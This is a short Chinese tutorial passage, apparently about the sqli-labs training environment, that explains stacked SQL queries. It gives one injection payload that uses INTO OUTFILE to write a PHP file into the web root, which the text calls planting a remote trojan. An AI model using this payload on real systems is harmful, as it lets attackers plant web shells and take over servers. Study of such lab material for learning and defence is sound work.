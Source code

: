 执行多条语句使用；来分隔。例如：

127.0.0.1/sql-labs/Less-2/?id=2;select '<?phpinfo();?>' into outfile 'H:\WWW\sql-labs\shell.php'#

执行多条sql语句来写入远程木马。